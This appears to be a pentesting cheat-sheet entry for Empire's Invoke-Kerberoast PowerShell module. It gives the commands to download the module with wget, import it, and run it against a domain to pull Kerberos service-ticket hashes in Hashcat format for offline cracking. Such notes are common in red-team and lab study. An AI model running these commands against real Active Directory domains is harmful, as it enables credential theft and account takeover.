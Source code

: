 > Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent.
> 
> Requests service tickets for kerberoast-able accounts and returns extracted ticket hashes.

#Active_Directory_Authentication #NTLM_Hash #Active_Directory_Enumeration 

Download
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

Import module
```
. .\Invoke-Kerberoast.ps1
```

Usage
```
Invoke-Kerberoast -Domain hentai.com -OutputFormat Hashcat | fl
```